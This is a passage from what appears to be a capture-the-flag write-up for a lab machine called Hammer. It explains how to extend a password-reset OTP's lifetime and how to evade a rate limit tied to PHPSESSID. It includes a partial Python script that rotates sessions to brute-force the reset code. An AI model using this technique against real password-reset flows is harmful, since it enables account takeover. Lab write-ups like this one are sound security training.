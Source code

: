 We can easily set the `s` field to be a huge value and the OTP will never expire! Now that we have this we can start cracking, or so I thought.

This application has a second anti-bruteforce mechanism: a rate limit. After 6 failed attempts, the server will return: 
```http
HTTP/1.1 200 OK
Date: Fri, 18 Apr 2025 18:36:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Rate-Limit-Pending: 0
Content-Length: 44
Keep-Alive: timeout=5, max=93
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Rate limit exceeded. Please try again later.
```

Ok so we need to find a way to trick this obstacle. To do that, the key is to discover what the server considers when determining how many attempts we have left. Is it our IP? The email? How many parmiggiane di melanzane we ate that day?

Luckily none of these, it's the PHPSESSID. Since the number of tries is tied to this cookie, we can craft a custom script that refreshes this value every 6 tries. Here's mine:
```python
import requests
import re

BASE_URL = 'http://[MACHINE_IP]:1337'
HOMEPAGE = f'{BASE_URL}/'
RESET_ENDPOINT = f'{BASE_URL}/reset_password.php'
MAX_ATTEMPTS_PER_SESSION = 6
EMAIL = 'tester@hammer.thm'
EXTEND_TTL = '999999999'  
NEW_PASSWORD = 'MyN3w$tr0ngP@ss!'  # your chosen new password

# Regex to extract the hidden 's' value
TTL_REGEX = re.compile(r'name="s"\s+value="(\d+)"')

def new_session():
    """Start a new session and obtain a fresh PHPSESSID."""
    session = requests.Session()
    session.get(HOMEPAGE)  # hit homepage to set fresh PHPSESSID
    session.headers.update({
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64)',
        'Origin': BASE_URL,
        'Referer': RESET_ENDPOINT
    })
    return session

def init_reset(session):
    """
    Trigger the password-reset flow for the email (including TTL extension)
    and parse out the 's' hidden field value.
    """
    data = {'email': EMAIL, 'extend_ttl': EXTEND_TTL}
    r = session.post(RESET_ENDPOINT, data=data)
    r.raise_for_status()
    match = TTL_REGEX.search(r.text)
    ttl = match.group(1) if match else None
    print(f"[+] Initialized reset")
    return ttl
```